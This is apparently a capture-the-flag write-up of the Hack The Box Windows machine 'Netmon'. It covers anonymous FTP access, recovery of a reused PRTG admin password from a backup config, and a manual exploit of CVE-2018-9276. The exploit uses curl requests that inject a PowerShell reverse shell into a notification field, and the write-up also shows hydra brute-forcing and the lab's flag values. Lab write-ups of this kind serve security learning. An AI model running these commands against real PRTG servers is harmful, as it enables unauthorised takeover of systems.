



+++
title = "Netmon"
date = "2023-11-07"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2019-03-02

**Created by**: [mrb3n](https://app.hackthebox.com/users/2984)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.152`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Netmon using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.152" -p-
```

```
<SNIP>
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.152" --top-ports "500"
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.152" -p "21,80,135,139,445,5985,47001" -sV
```

```
<SNIP>
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.152" -p "123,137,138,500,4500,5353,5355" -sV
```

```
<SNIP>
PORT     STATE         SERVICE     VERSION
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
<SNIP>
```

Alright, so `nmap` managed to determine that Netmon is running Windows, either
Server 2008 R2 or Server 2012.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.152" -p "21,80,135,139,445,5985,47001" -sC
```

```
<SNIP>
PORT      STATE SERVICE
21/tcp    open  ftp
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-03T20:03:52
|_  start_date: 2024-02-03T19:48:38
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.152" -p "123,137,138,500,4500,5353,5355" -sC
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf
5355/udp open|filtered llmnr
<SNIP>
```

The `ftp-anon` script reveals that the FTP server accepts anonymous connections.
It also found a bunch of files typically corresponding to a Windows filesystem.

## Services enumeration

### FTP

#### Exploring the filesystem

Thanks to `nmap`, we know that we can log in anonymously.

```sh
❯ ftp "10.10.10.152"
```

```
<SNIP>
Name (10.10.10.152:root): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
<SNIP>
ftp>
```

As indicated by `nmap`, the FTP server contains many files and folders probably
related to a Windows filesystem.

Upon further enumeration of the content of this server, I found the user flag in
`C:\Users\Public\Desktop`. However, I won't retrieve it just yet.

This folder also contains `PRTG Enterprise Console.lnk` and
`PRTG Network Monitor.lnk`, which are link files for PRTG apps... Let's keep
that in mind.

#### Known vulnerabilities

Exploring the content of the FTP server proved to be unsuccessful. But maybe
it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.152" -p "21" --script "vuln"
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
<SNIP>
```

It isn't.

### SMB

#### Exploring the shares

Let's try to list the SMB shares with a NULL session, since we have no
credentials at our disposal.

```sh
❯ smbclient -L "//10.10.10.152" -N
```

```
session setup failed: NT_STATUS_ACCESS_DENIED
```

It failed.

Let's try common credentials then.

```sh
❯ hydra -L "/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" -P "/usr/share/wordlists/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt" "10.10.10.152" "smb"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed too.

#### Known vulnerabilities

We don't know the credentials to connect to the SMB server. But maybe it's
vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.152" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: No accounts left to try
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: No accounts left to try
<SNIP>
```

Sadly, it isn't.

### PRTG Network Monitor

#### Exploration

Let's browse to `http://10.10.10.152/`.



It looks like a login page for PRTG Network Monitor. What's that?

> PRTG (Paessler Router Traffic Grapher until version 7) is a network monitoring
> software developed by Paessler AG. It falls under the broader Faessier PRTG
> product family and is designed to monitor system conditions like bandwidth
> usage or uptime and collect statistics from miscellaneous hosts such as
> switches, routers, servers, and other devices and applications.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Paessler_PRTG)

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


#### Exploration

To access the functionalities of this application, we need to log in.

If we search online for PRTG Network Monitor's default credentials, we find a
[manual page](https://www.paessler.com/manuals/prtg/login) from
[Paessler](https://www.paessler.com/) (the vendor) mentioning that it's
`prtgadmin`:`prtgadmin`.

Unfortunately, they are invalid.

What about common credentials then? I launched a Cluster bomb attack on Burp
Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords. Unfortunately, only the first 47 requests were tried, the
server stopped responding to requests after that. All of the combinations tested
failed.

So let's think a bit. We have access to what could be a part of Netmon's
filesystem through the FTP server. Maybe it holds sensitive information related
to PRTG Network Monitor?

If we search online, we find
[an article](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)
by [Paessler](https://www.paessler.com/) listing the various storage location
for PRTG Network Monitor. Apparently, the data directory is
`%programdata%\Paessler\PRTG Network Monitor`. It might be worth checking!

### FTP

#### Exploring `\ProgramData\Paessler\PRTG Network Monitor`

Let's list the content of the `\ProgramData\Paessler\PRTG Network Monitor`
FTP folder.

```sh
ftp> dir "\ProgramData\Paessler\PRTG Network Monitor"
```

```
<SNIP>
08-18-23  07:20AM       <DIR>          Configuration Auto-Backups
02-04-24  05:39AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
02-04-24  05:39AM       <DIR>          Logs (Web Server)
01-15-24  10:03AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
01-15-24  10:03AM              1648429 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
```

We find a few files.

If we retrieve `PRTG Configuration.old.bak` and explore its content, we stumble
across this:

```xml
<SNIP>
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
<SNIP>
```

Credentials! We found them in a backup file dating back to 2018 though, so they
must be old. But maybe they're still valid?

### PRTG Network Monitor

#### Exploration

Back to our login form, we can try the credentials
`prtgadmin`:`PrTg@dmin2018`... but it fails.

Given that these credentials are from 2018 and the current configuration file
(`PRTG Configuration.dat`) is dated 2019, it's possible that the user simply
updated the year from 2018 to 2019.

Let's give it a shot.



The credentials `prtgadmin`:`PrTg@dmin2019` worked!

Now we have access to the app.

I browsed around a bit, but I found nothing that would grant me RCE.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for
`PRTG Network Monitor`, we find
[PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46527)
([CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276)).

Let's give it a try!

## Foothold ([CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276))

[CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) is a
vulnerability in PRTG Network Monitor prior to version `18.2.39`. Due to a poor
validation of the script name, an attacker can create a notification whose
script name is chained with an OS command to get RCE.

### Preparation

The Metasploit module `exploit/windows/http/prtg_authenticated_rce` can be used
to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'Powershell #3 (Base64)' payload from
[RevShells](https://www.revshells.com/).

I'll save it as the `REVSHELL_PAYLOAD` shell variable.

### Exploitation

In order to create a notification, we need to be authenticated, so we need an
`OCTOPUS1813713946` cookie.

```sh
❯ RESPONSE=$(curl -s -i "http://10.10.10.152/public/checklogin.htm" -X "POST" --data-urlencode "username=prtgadmin" --data-urlencode "password=PrTg@dmin2019"); \
  OCTOPUS1813713946=$(echo "$RESPONSE" | grep -i "Set-Cookie: OCTOPUS1813713946=" | awk -F '=' '{print $2}' | awk '{print $1}' | sed 's/;$//')
```

Now we can create a notification with our payload. We'll save the ID of our notification.

```sh
❯ RESPONSE=$(curl -s -H "Cookie: OCTOPUS1813713946=$OCTOPUS1813713946" -H "X-Requested-With: XMLHttpRequest" "http://10.10.10.152/editsettings" -X POST --data-urlencode "name_=Revshell" --data-urlencode "tags_=" --data-urlencode "active_=1" --data-urlencode "schedule_=-1|None|" --data-urlencode "postpone_=1" --data-urlencode "comments=" --data-urlencode "summode_=2" --data-urlencode "summarysubject_=[%sitename] %summarycount Summarized Notifications" --data-urlencode "summinutes_=1" --data-urlencode "accessrights_=1" --data-urlencode "accessrights_=1" --data-urlencode "accessrights_201=0" --data-urlencode "active_1=0" --data-urlencode "addressuserid_1=-1" --data-urlencode "addressgroupid_1=-1" --data-urlencode "address_1=" --data-urlencode "subject_1=[%sitename] %device %name %status %down (%message)" --data-urlencode "contenttype_1=text/html" --data-urlencode "customtext_1=" --data-urlencode "priority_1=0" --data-urlencode "active_17=0" --data-urlencode "addressuserid_17=-1" --data-urlencode "addressgroupid_17=-1" --data-urlencode "message_17=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_8=0" --data-urlencode "addressuserid_8=-1" --data-urlencode "addressgroupid_8=-1" --data-urlencode "address_8=" --data-urlencode "message_8=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_2=0" --data-urlencode "eventlogfile_2=application" --data-urlencode "sender_2=PRTG Network Monitor" --data-urlencode "eventtype_2=error" --data-urlencode "message_2=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_13=0" --data-urlencode "sysloghost_13=" --data-urlencode "syslogport_13=514" --data-urlencode "syslogfacility_13=1" --data-urlencode "syslogencoding_13=1" --data-urlencode "message_13=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_14=0" --data-urlencode "snmphost_14=" --data-urlencode "snmpport_14=162" --data-urlencode "snmpcommunity_14=" --data-urlencode "snmptrapspec_14=0" --data-urlencode "messageid_14=0" --data-urlencode "message_14=[%sitename] %device %name %status %down (%message)" --data-urlencode "senderip_14=" --data-urlencode "active_9=0" --data-urlencode "url_9=" --data-urlencode "urlsniselect_9=0" --data-urlencode "urlsniname_9=" --data-urlencode "postdata_9=" --data-urlencode "active_10=0" --data-urlencode "active_10=10" --data-urlencode "address_10=Demo EXE Notification - OutFile.ps1" --data-urlencode "message_10=;$REVSHELL_PAYLOAD" --data-urlencode "windowslogindomain_10=" --data-urlencode "windowsloginusername_10=" --data-urlencode "windowsloginpassword_10=" --data-urlencode "timeout_10=60" --data-urlencode "active_15=0" --data-urlencode "accesskeyid_15=" --data-urlencode "secretaccesskeyid_15=" --data-urlencode "arn_15=" --data-urlencode "subject_15=" --data-urlencode "message_15=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_16=0" --data-urlencode "isusergroup_16=1" --data-urlencode "addressgroupid_16=200|PRTG Administrators" --data-urlencode "ticketuserid_16=100|PRTG System Administrator" --data-urlencode "subject_16=%device %name %status %down (%message)" --data-urlencode "message_16=Sensor: %name\nStatus: %status %down\n\nDate/Time: %datetime (%timezone)\nLast Result: %lastvalue\nLast Message: %message\n\nProbe: %probe\nGroup: %group\nDevice: %device (%host)\n\nLast Scan: %lastcheck\nLast Up: %lastup\nLast Down: %lastdown\nUptime: %uptime\nDowntime: %downtime\nCumulated since: %cumsince\nLocation: %location\n\n" --data-urlencode "autoclose_16=1" --data-urlencode "objecttype=notification" --data-urlencode "id=new"); \
  ID=$(echo "$RESPONSE" | jq -r ".objid")
```

Finally, let's trigger the payload by sending a test notification request.

```sh
❯ curl -s -o "/dev/null" -H "Cookie: OCTOPUS1813713946=$OCTOPUS1813713946" "http://10.10.10.152/api/notificationtest.htm" -X "POST" --data-urlencode "id=$ID"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.152] 49887
PS C:\Windows\system32>
```

It caught the reverse shell!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Netmon's architecture?

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Netmon.

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows Server 2016 Standard
CurrentBuildNumber : 14393
```

In fact, it's Windows Server 2016 Standard build `14393` (`nmap` was wrong!).

### Hotfixes

Let's retrieve the list of installed hotfixes.

```ps1
PS C:\Windows\system32> Get-HotFix | Select-Object -ExpandProperty "HotFixID"
```

```
KB3199986
KB3200970
```

### Users

Let's enumerate all users using `PowerView`.

```ps1
PS C:\Windows\system32> Get-NetLocalGroupMember -GroupName "Users" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

There's no user.

What about the administrators?

```ps1
PS C:\Windows\system32> Get-NetLocalGroupMember -GroupName "Administrators" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName           SID                                          
----------           ---                                          
NETMON\Administrator S-1-5-21-2105491204-2789866987-2357151585-500
```

There's only the built-in `Administrator`.

### Groups

Let's enumerate all groups, once again using `PowerView`.

```ps1
PS C:\Windows\system32> Get-NetLocalGroup | Select-Object "GroupName", "Comment" | Format-Table -AutoSize
```

```
GroupName                           Comment
---------                           -------
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
Administrators                      Administrators have complete and unrestricted access to the computer/domain
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Certificate Service DCOM Access     Members of this group are allowed to connect to Certification Authorities in the enterprise
Cryptographic Operators             Members are authorized to perform cryptographic operations.
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers                   Members of this group can read event logs from local machine
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
IIS_IUSRS                           Built-in group used by Internet Information Services.
Network Configuration Operators     Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users           Members of this group can access performance counter data locally and remotely
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers
Print Operators                     Members can administer printers installed on domain controllers
RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This group needs to be populated on servers running RD Connection Broker. RD Session Host servers and RD Virtualization Host servers used in the deployment need to be in this group.
RDS Management Servers              Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be populated on all servers in a Remote Desktop Services deployment. The servers running the RDS Central Management service must be included in this group.
RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing deployments, these servers are typically deployed in an edge network. This group needs to be populated on servers running RD Connection Broker. RD Gateway servers and RD Web Access servers used in the deployment need to be in this group.
Remote Desktop Users                Members in this group are granted the right to logon remotely
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain      
Storage Replica Administrators      Members of this group have complete and unrestricted access to all features of Storage Replica.
System Managed Accounts Group       Members of this group are managed by the system.
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

### NICs

Let's gather the list of connected NICs.

```ps1
PS C:\Windows\system32> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : netmon
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-1A-75
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::201(Preferred) 
   Lease Obtained. . . . . . . . . . : Sunday, February 4, 2024 5:38:58 AM
   Lease Expires . . . . . . . . . . : Sunday, February 4, 2024 6:25:58 AM
   IPv6 Address. . . . . . . . . . . : dead:beef::7d50:ceef:e4e2:5ba9(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::7d50:ceef:e4e2:5ba9%3(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.152(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:1014%3
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-DF-F4-87-00-50-56-B9-14-09
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb

Tunnel adapter isatap.{9978787D-72DF-4652-BD20-59EE06187435}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

There's an Ethernet interface and an ISATAP interface.

## System enumeration

### Flags

If we check `Public`'s Desktop folder, we find the user flag.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Public\Desktop\user.txt"
```

```
d0f389244ccaeb5f3877a088ef5ebfde
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
64d9cabedfc6c0fd14424ca5bfdcf16e
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Piece of cake'. The
foothold was a bit tricky to find, since you had to look at config files to find
old credentials and have the idea of changing a part of it, and then find a
valid CVE. However, it granted us access to the system as `NT AUTHORITY\SYSTEM`,
so there was no need to escalate privileges afterwards.

Thanks for reading!
